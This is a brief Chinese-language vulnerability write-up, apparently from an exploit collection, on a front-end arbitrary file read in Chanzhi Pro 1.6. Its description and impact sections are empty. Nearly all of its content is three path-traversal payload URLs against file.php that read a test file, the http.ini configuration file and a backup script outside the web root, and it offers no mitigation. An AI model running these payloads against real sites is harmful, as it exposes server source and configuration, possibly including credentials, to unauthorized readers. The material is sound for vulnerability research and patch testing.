 # 禅知 Pro 1.6 前台任意文件读取

> 原文：[http://book.iwonder.run/0day/禅知/1.html](http://book.iwonder.run/0day/禅知/1.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

在网站根目录 C:\xampp\chanzhi\www 新建一个测试文件 test.php

![image](img/5322c1be742db787b29cc334c2bd115c.png)

执行 payload 查看文件内容：

```
http://0-sec.org/file.php?pathname=../test.php&t=txt&o=source 
```

![image](img/6d99ff4d0a620bf30f161521939c8541.png)

执行 payload 来查看程序的配置文件：

```
http://0-sec.org/file.php?pathname=../http.ini&t=txt&o=source 
```

![image](img/fdd68542e90a659ffde2319e5a4bf8f5.png)

跨目录读取文件（前提是有目录权限）：

```
http://0-sec.org/file.php?pathname=../../bin/php/backup.php&t=txt&o=source 
```

